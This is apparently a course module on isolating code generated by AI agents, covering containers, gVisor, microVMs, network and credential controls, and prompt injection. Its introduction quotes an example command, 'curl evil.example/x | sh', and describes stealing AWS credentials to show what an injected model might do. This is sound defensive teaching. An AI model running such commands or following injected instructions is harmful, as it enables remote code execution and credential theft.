

# Module 06: Sandboxed Code Execution & Security Isolation

> **Architectural Scope**: The threat model of agents that run generated code, the isolation spectrum (processes, containers, gVisor, microVMs, WebAssembly, VMs), defence in depth (network, filesystem, resource and credential controls), managed sandbox services, and secure handling of results.

---

## Why this module matters

Some of the most powerful agent capabilities, such as data-analysis "code interpreters", software-engineering agents, shell access and browser automation, work by **executing code the model wrote**. That code is generated from prompts that may contain attacker-controlled text (a web page, an email, a file in a repository, a user's malicious request). So you must assume that **the code is hostile or buggy**, even if your model and users are well meaning: a prompt injection can make a perfectly aligned model write `curl evil.example/x | sh`, or read `~/.aws/credentials` and post it to a server. The only reliable defence is to run such code in an environment where, even if it does its worst, **the damage is contained**. This is OWASP's *Excessive Agency* and *Insecure Output Handling* risk in practice (course 12, Module 06).

## Mental model: a bomb-disposal chamber, not a clean room

You are not trying to guarantee the code is safe; you are building a chamber where unsafe code cannot hurt anything that matters: no keys inside, no route out to the internet except what you allow, strict limits on how long and how much it can run, and the whole chamber destroyed afterwards.



## 1. Threat model: what can untrusted code do?

| Threat | Example |
|---|---|
| **Data exfiltration** | read environment variables, config files, other users' files, then send them out over HTTP/DNS |
| **Credential theft** | cloud metadata endpoints (`169.254.169.254`), mounted tokens, SSH keys |
| **Lateral movement / SSRF** | call internal services reachable from the sandbox network |
| **Resource exhaustion (DoS)** | infinite loops, fork bombs, memory or disk fill, huge outputs |
| **Abuse of your compute** | crypto-mining, spam, scanning, attacks launched from your IP |
| **Persistence and tampering** | modify shared files, leave a backdoor for the next user/session |
| **Sandbox escape** | exploit a kernel or runtime vulnerability to reach the host |
| **Indirect prompt injection** | instructions hidden in data the code reads make the agent do something harmful |

## 2. The isolation spectrum

Stronger isolation costs more startup time and resources. The key variable is *what the untrusted code shares with the host*.

| Technique | Boundary | Strengths | Weaknesses |
|---|---|---|---|
| **Language-level restrictions** (`exec` with blocked builtins, RestrictedPython) | inside the interpreter | convenient | **not a security boundary**: well-known escapes; do not rely on it |
| **Plain process + rlimits/seccomp** | OS process | cheap | shares the kernel and filesystem view; hard to configure safely |
| **Containers** (Docker/OCI with namespaces + cgroups) | namespaces on a **shared kernel** | fast (ms to s), mature, easy | a kernel vulnerability or misconfiguration (privileged mode, mounted `docker.sock`, extra capabilities) can reach the host |
| **User-space kernel** (**gVisor**) | an application kernel (Sentry) intercepts syscalls so the container rarely touches the host kernel | much smaller attack surface than plain containers | some syscall/performance overhead, compatibility gaps |
| **MicroVMs** (**Firecracker**, Kata Containers, Cloud Hypervisor) | hardware virtualisation (KVM): each sandbox has its **own kernel** | strong isolation, still fast (Firecracker boots in about 125 ms with a few MiB of overhead, and powers AWS Lambda/Fargate) | needs KVM/bare-metal or nested virtualisation; more infrastructure |
| **WebAssembly (WASI)** runtimes, **Pyodide** | a capability-based VM: no syscalls, filesystem or network unless granted | very fast start, fine-grained capabilities, can run in the browser | limited library/native support |
| **Full virtual machines** | hypervisor | strongest, familiar | slow start, heavy |

**Rule of thumb:** for **multi-tenant** or **internet-facing** agents running arbitrary code, use at least **gVisor or a microVM**. Plain Docker is acceptable only for trusted internal use or when hardened and combined with other controls.

## 3. Defence in depth: the controls that matter

1. **Network: default deny.** No network at all for pure computation (`--network none`); otherwise route egress through a **proxy with an allow-list** of domains, block link-local/metadata addresses and private ranges, and log requests.
2. **Filesystem:** ephemeral root, **read-only** base image, a small writable workspace (tmpfs or a quota-limited volume), mount only the files the task needs, read-only where possible; no host paths.
3. **Resource limits:** CPU shares, **memory** limit, **pids** limit (fork bombs), disk quota, **wall-clock timeout** with forced kill, output size caps, file-descriptor limits.
4. **Least privilege:** run as a **non-root** user, drop all Linux capabilities, `no-new-privileges`, default seccomp profile, no privileged containers, no access to the container runtime socket.
5. **No secrets inside.** Do not put API keys, tokens or cloud credentials in the sandbox environment. If the code must call an API, give it a **narrowly scoped, short-lived token** or let it call through a **proxy that injects credentials** outside the sandbox.
6. **Isolation between users and sessions:** one sandbox per user/session (never share a long-lived interpreter between tenants); **destroy** after use or reset from a clean snapshot.
7. **Observe and audit:** log executed code, commands, files written, network attempts, resource use; alert on anomalies.
8. **Fast start without sharing state:** keep a **pool of pre-warmed, clean** sandboxes or use snapshot/restore (microVM snapshots, container checkpointing) rather than reusing dirty ones.

A hardened container invocation illustrating many controls:

```bash
docker run --rm \
  --network none \
  --read-only --tmpfs /work:rw,size=64m \
  --cap-drop ALL --security-opt no-new-privileges \
  --pids-limit 128 --memory 256m --cpus 0.5 \
  --user 65534:65534 \
  -v "$PWD/input.csv":/work/input.csv:ro \
  python:3.12-slim timeout 30 python /work/main.py
```

(Run under gVisor with `--runtime=runsc` for a stronger boundary.)

## 4. Managed sandboxes

Building and operating this yourself is hard. Services provide **sandbox-as-a-service** with APIs for creating a sandbox, running code, streaming output and managing files: **E2B** (Firecracker microVMs), **Modal** sandboxes (gVisor), **Daytona**, Cloudflare Containers/Workers, Vercel Sandbox, and the hosted code-interpreter tools offered by model providers. Evaluate them on isolation technology, start time, network policy controls, persistence options, region and data-residency, pricing, and audit logs. Self-hosting options include Firecracker/Kata on Kubernetes, `gVisor` runtime classes, and Wasm runtimes.

## 5. Handling results and agent-level safeguards

- **Sandbox output is untrusted data.** It may contain text crafted to manipulate the agent (indirect prompt injection). Do not let it change system instructions, expand permissions or trigger high-impact tools without confirmation.
- **Validate before using results** in privileged contexts (for example never `eval` or `exec` sandbox output in your main process; parse with strict schemas).
- **Separate "think" from "do":** the planning model can run in a trusted context while code runs in the sandbox; return only what is needed.
- **Human approval** for destructive or externally visible actions (Module 07), even from inside a sandbox with network access.
- **Browser and computer-use agents** need the same treatment: a fresh browser profile with **no logged-in sessions**, domain allow-lists, downloads confined to the sandbox, and screenshots or page text treated as untrusted.
- **Supply chain:** pin and scan base images; restrict `pip install` to an internal mirror or pre-baked libraries if the agent installs packages, as package installation runs arbitrary code too.

## Worked example: picking an isolation level

| Scenario | Risk | Choice |
|---|---|---|
| Internal analyst tool: employees run pandas snippets on non-sensitive CSVs | low, trusted users | hardened container, no network, resource limits |
| Public chatbot with a "run Python" tool | untrusted users and prompts, multi-tenant | **gVisor or Firecracker microVM**, per-session, egress allow-list, destroy after session |
| Coding agent with repo access and package installs | secrets in repo, supply chain, prompt injection from issues/READMEs | microVM or container per task, scoped read-only repo mount, egress via proxy to package mirror only, no credentials in env, human review of pushes |
| Agent executing user-provided code in an education platform | hostile users, abuse (mining) | microVM or Wasm, strict CPU/time quotas, no network, rate limits |

Cost note: a microVM sandbox adds on the order of 100 to 300 ms start latency (less with snapshots) and a few tens of MiB of memory; for an agent step already taking seconds of LLM time, that overhead is negligible compared with the cost of a breach.

## Common pitfalls

1. **Using `exec`/`eval` with "safe" globals** and believing it is a sandbox.
2. **Running generated code on the application host or in the same process.**
3. **Leaving the network open**, enabling exfiltration and SSRF (including the cloud metadata endpoint).
4. **Passing real credentials into the sandbox environment.**
5. **Mounting the Docker socket or running privileged containers.**
6. **Reusing a long-lived sandbox across users or sessions.**
7. **No timeouts or output caps**, allowing denial of service or context flooding.
8. **Treating sandbox output as trusted** and feeding it into privileged tool calls.
9. **Assuming the model's "intent" is safe** (injection changes intent invisibly).

## How this connects

- **Module 03** (safe tool execution) establishes validation and least privilege; this module isolates the most dangerous tools. **Module 07** adds human approval; **Module 05** needs per-agent permissions in multi-agent systems; **Module 08** evaluates safety behaviour.
- **Course 01, Module 19** (Docker and deployment) and **Course 04** (security, SSRF, network design) supply container and network fundamentals; **Course 12, Modules 04 to 07** cover guardrails, OWASP LLM risks and red teaming.

## Go further

- roadmap.sh: *AI Agents* and *AI Red Teaming* nodes on **code execution**, **sandboxing**, **prompt injection**; *DevSecOps* and *Docker* roadmaps for container hardening.
- gVisor documentation; Agache et al., *Firecracker: Lightweight Virtualization for Serverless Applications* (NSDI 2020); Docker security best practices; OWASP Top 10 for LLM Applications (Excessive Agency, Insecure Output Handling); E2B and Modal sandbox documentation.

---

## Module Study Progression
1. **Beginner Playground**: Read [00_FOUNDATIONS_PLAYGROUND.md](00_FOUNDATIONS_PLAYGROUND.md).
2. **Architecture Theory**: Study this [01_README.md](01_README.md).
3. **Hands-on Project**: Follow [02_PROJECT_GUIDE.md](02_PROJECT_GUIDE.md).
4. **Staff Interview Challenges**: Check [03_SELF_ASSESSMENT_AND_CHALLENGES.md](03_SELF_ASSESSMENT_AND_CHALLENGES.md).
5. **Production Debugging**: Review [04_TROUBLESHOOTING_AND_EDGE_CASES.md](04_TROUBLESHOOTING_AND_EDGE_CASES.md).
